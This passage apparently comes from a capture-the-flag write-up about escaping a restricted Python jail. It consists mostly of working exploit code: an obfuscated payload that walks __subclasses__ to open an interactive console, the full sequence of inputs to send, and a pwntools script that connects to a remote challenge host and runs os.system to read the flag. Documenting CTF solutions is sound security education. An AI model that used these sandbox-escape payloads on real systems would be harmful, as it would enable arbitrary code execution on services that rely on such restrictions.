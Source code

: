 Remember to load `code` module in the previous step, otherwise it will fail. Eventually, we get an interactive shell to do anything:

```python
>> [A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,S:=().__class__.__base__.__subclasses__()[D].__doc__,().__class__.__base__.__subclasses__()[D-True].__init__.__globals__[S[A+A+A+C]+S[C+A-True-True]+S[A+A+A+C]].modules[S[C+A+True]+S[C+True+True]+S[C+True+True+True+True+True]+S[True]].InteractiveConsole().interact()]
# this is the interactive console
>>>
```

Everything required to send:

```python
[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,().__class__.__base__.__subclasses__()[D]()()]
code
quit
[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,S:=().__class__.__base__.__subclasses__()[D].__doc__,().__class__.__base__.__subclasses__()[D-True].__init__.__globals__[S[A+A+A+C]+S[C+A-True-True]+S[A+A+A+C]].modules[S[C+A+True]+S[C+True+True]+S[C+True+True+True+True+True]+S[True]].InteractiveConsole().interact()]
import os
os.system("cat flag.txt")
```

Attack script:

```python
from pwn import *

context(log_level = "debug")

p = remote("0.cloud.chals.io", 33618)
p.recvuntil(b">> ")
p.sendline(b"().__class__.__base__.__subclasses__()")
res = p.recvline().decode()
print("Helper", res.split(", ").index("<class '_sitebuiltins._Helper'>"))
print("Printer", res.split(", ").index("<class '_sitebuiltins._Printer'>"))

p.recvuntil(b">> ")
p.sendline(b"[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,().__class__.__base__.__subclasses__()[D]()()]")
p.recvuntil(b"help> ")
p.sendline(b"code")
p.sendline(b"quit")

p.recvuntil(b">> ")
p.sendline(b"[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,S:=().__class__.__base__.__subclasses__()[D].__doc__,().__class__.__base__.__subclasses__()[D-True].__init__.__globals__[S[A+A+A+C]+S[C+A-True-True]+S[A+A+A+C]].modules[S[C+A+True]+S[C+True+True]+S[C+True+True+True+True+True]+S[True]].InteractiveConsole().interact()]")
p.recvuntil(b">>> ")
p.sendline(b"import os")
p.sendline(b"os.system(\"cat flag.txt\")")
p.interactive()
```

